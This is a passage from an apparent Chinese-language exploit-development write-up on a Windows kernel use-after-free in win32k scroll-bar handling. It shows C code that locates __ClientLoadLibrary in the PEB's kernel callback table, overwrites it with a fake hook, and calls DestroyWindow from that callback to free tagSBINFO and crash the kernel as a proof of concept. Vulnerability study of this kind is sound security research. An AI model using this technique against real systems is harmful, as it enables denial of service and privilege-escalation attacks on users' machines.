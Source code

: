 这里比较坑的点是 `nt!KeUserModeCallback` 会被很多地方调用很多次，这样每次断下来查看一下栈回溯才知道是不是处于我们的函数链中，
最麻烦的是你无法确定该选用哪个回调函数去 hook，`_fnDWORD` 也会在 DrawScrollBar 中被触发回调，不过这是一个已经被完成的利用，
虽然不知道利用开发者是如何知道 `__ClientLoadLibrary` 函数是适合被 hook 的，可能调用次数比较少，这里纠结了许久，
最后就当学习了吧（tql 233）。

那么现在我们确定要 hook 的函数是 `__ClientLoadLibrary`，经过计算它的偏移是 `0x238`，用以下代码获取它的地址：

```c
ULONG_PTR Get__ClientLoadLibrary()
{
	ULONG_PTR addr = NULL;
	addr = *(ULONG_PTR *)(__readgsqword(0x60) + 0x58) + 0x238; // gs:[60] 表示 peb 的地址，用 __readgsqword 读取 peb 地址
	return addr;
}
```

接着把获取到的地址上的值覆盖成我们自定义的函数 fakehook 函数的地址，用一个赋值就行了。

```c
*(ULONG_PTR *)_ClientLoadLibrary_addr = (ULONG_PTR)Fake__ClientLoadLibrary;
```

有了 hook 的自定义函数之后我们就可以做些事情，想办法触发 uaf。要考虑到回调函数可能在系统其它地方被多次调用，
我们在执行自定义函数的时候设置 hookflag 变量 和 hookcount 变量，在执行到 `EnableScrollBar` 之前把
hookflag 设置为 1，表示可以开始 hook 回调函数，而 hookcount 表示自 hookflag 变量设置后第几次 hook
到回调函数，那么我们只要确认需要执行的是第几次 hook 到的回调函数，代码如下。

```c
VOID Fake__ClientLoadLibrary(VOID* a)
{
	if (hookflag)
	{
		if (++hookcount == 2)
		{
			DestroyWindow(hwnd);
		}
	}
}
```

到现在为止我们终于可以构造出一个触发 BSOD 的 poc，在回调函数中调用 destorywindow 释放掉
`tagSBINFO` 结构，但是 window 对象并不会被立即释放，这涉及到引用计数机制，据资料说明 `tagSBINFO`
并没有引用计数机制，所以这里可以被释放掉，然后被释放掉的块在后续处理中有一次写操作，
这样被释放的堆块就会受到影响，导致内核崩溃。大致代码如下：

```c
#include <windows.h>

const char g_szClassName[] = "poc";
HWND hwnd;
int hookflag = 0;
int hookcount = 0;

VOID * _ClientLoadLibrary;
ULONG_PTR _ClientLoadLibrary_addr;

VOID Fake__ClientLoadLibrary(VOID* a)
{
	if (hookflag)
	{
		if (++hookcount == 2)
		{
			DestroyWindow(hwnd);
		}
	}
}

... ...
```